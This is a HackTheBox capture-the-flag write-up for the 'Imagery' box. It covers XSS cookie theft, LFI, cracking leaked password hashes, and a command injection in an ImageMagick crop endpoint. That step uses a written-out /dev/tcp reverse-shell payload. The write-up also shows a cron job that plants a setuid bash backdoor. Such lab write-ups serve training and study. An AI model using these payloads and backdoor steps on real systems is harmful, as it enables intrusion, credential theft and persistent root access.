






# Imagery - HackTheBox Writeup

Welcome to my writeup for the **Imagery** challenge on HackTheBox. This box was a fun ride, filled with interesting steps and a couple of moments where I had to pause, rethink, and adjust my approach. Let me walk you through my journey.

---

## Initial Reconnaissance

I started with a quick `nmap` scan to see what services were running on the target machine:

```bash
nmap -sC -sV -p- 10.10.11.88
```

The scan revealed several open ports:

```
PORT     STATE SERVICE
22/tcp   open  ssh
7777/tcp open  cbt
7778/tcp open  interwise
8000/tcp open  http-alt
9000/tcp open  cslistener
9001/tcp open  tor-orport
```

The web server on port 8000 caught my attention, so I decided to start there.

---

## Exploring the Web Server

Navigating to the web server, I found a page for submitting reports that would supposedly be "viewed" by the admin. This immediately piqued my interest. I tested for XSS vulnerabilities and, sure enough, found a basic XSS flaw. Here's a screenshot of the XSS in action:



Using this XSS, I was able to extract the admin's cookie, which was not protected. Here's the cookie I retrieved:



With the admin cookie in hand, I logged into the admin panel. The interface was straightforward, and one button in particular stood out: the option to download logs. This immediately made me think of a potential Local File Inclusion (LFI) vulnerability. Testing confirmed my suspicion:



---

## Digging Deeper

Through the LFI, I began exploring the server's files. The entry point for the application was `../app.py`, which imported several other files:

```python
from config import *
from utils import _load_data, _save_data
from utils import *
from api_auth import bp_auth
from api_upload import bp_upload
from api_manage import bp_manage
from api_edit import bp_edit
from api_admin import bp_admin
from api_misc import bp_misc
```

In `../config.py`, I found some interesting variables:

- **DATA_STORE_PATH**: `'db.json'`
- **BYPASS_LOCKOUT_HEADER**: `'X-Bypass-Lockout'`
- **BYPASS_LOCKOUT_VALUE**: `'default-secret-token-for-dev'`
- **IMAGEMAGICK_CONVERT_PATH**: `'/usr/bin/convert'`
- **EXIFTOOL_PATH**: `'/usr/bin/exiftool'`

The ImageMagick path stood out because I knew of a well-known CVE for it. This would be worth exploring later.

In `../db.json`, I found the hashed admin password:

```json
"users": [
    {
        "username": "admin@imagery.htb",
        "password": "5d9c1d507a3f76af1e5c97a3ad1eaa31"
    }
]
```

Unfortunately, I couldn't crack this hash. But I also found a test user account:

```json
{
    "username": "testuser@imagery.htb",
    "password": "2c65c8d7bfbca32a3ed42596192384f6",
    "isAdmin": false,
    "displayId": "e5f6g7h8",
    "login_attempts": 0,
    "isTestuser": true,
    "failed_login_attempts": 0,
    "locked_until": null
}
```

Cracking this hash was successful, and I obtained the credentials:

```
testuser@imagery.htb:iambatman
```

---

## Exploiting Command Injection in Image Transformation

While exploring the application as the test user, I noticed that the `/apply_visual_transform` endpoint allowed users to apply transformations to uploaded images. By analyzing the `api_edit.py` file, I discovered that the `crop` operation constructed a shell command using user-supplied parameters without proper sanitization:

```python
command = f"{IMAGEMAGICK_CONVERT_PATH} {original_filepath} -crop {width}x{height}+{x}+{y} {output_filepath}"
subprocess.run(command, capture_output=True, text=True, shell=True, check=True)
```

The use of `shell=True` and direct inclusion of user input in the `command` string made this endpoint vulnerable to command injection. I exploited this flaw by uploading an image and intercepting the request during a crop operation. Injecting a reverse shell payload into the `width` parameter allowed me to achieve Remote Code Execution (RCE). Here's the payload I used:

```json
{
    "imageId": "ID",
    "transformType": "crop",
    "params": {
        "x": "10",
        "y": "10",
        "height": "10",
        "width": "; bash -i >& /dev/tcp/<ip>/<port> 0>&1; echo"
    }
}
```

Executing this payload gave me a foothold on the machine:



---

## Privilege Escalation

Once inside, I found a cron job running `/home/web/web/bot/admin.py`. The script contained hardcoded credentials:

```python
USERNAME = "admin@imagery.htb"
PASSWORD = "strongsandofbeach"
```

I also discovered a suspicious `.aes` file in `/var/backup`:

```bash
web@Imagery:/var/backup$ ls -la
total 22524
drwxr-xr-x  2 root root     4096 Sep 22 18:56 .
drwxr-xr-x 14 root root     4096 Sep 22 18:56 ..
-rw-rw-r--  1 root root 23054471 Aug  6  2024 web_20250806_120723.zip.aes
```

Using `pyAesCrypt`, I attempted to decrypt the file. After some time, I successfully brute-forced the password and extracted the contents:



Inside, I found an older version of `db.json` with a crackable hash for the user "mark." This gave me the credentials:

```
mark:supersmash
```

With this, I obtained the user flag.

---

## Root Privilege Escalation

Running `sudo -l` revealed that I could execute the `charcol` command as root:



Reading the documentation for `charcol`, I saw two potential paths to root: creating a backup of `/root` or adding a cron job. I opted for the latter, as it felt like a more complete privilege escalation.

I executed the following command:

```bash
auto add --schedule "* * * * *" --command "cp /bin/bash /tmp/neirda; chmod +s /tmp/neirda;" --name "not suspicious"
```

This created a backdoor, and I used it to access the root flag:

```
/root/root.txt
```

---

## Reflections

This challenge was packed with steps, but it was manageable with good organization. The only real hurdle was the AES-encrypted file, which took me longer than it should have because I initially avoided brute-forcing and searched in the file system for the origin of that file with it's potential password. Lesson learned: always run a brute-force in parallel when you're stuck.

The privilege escalation to root was straightforward, but it was satisfying to execute a proper privesc rather than just reading files. Overall, this was a clean and enjoyable box with a medium difficulty level.

And yes, I cleaned up all my traces afterward—respect for other players is key!
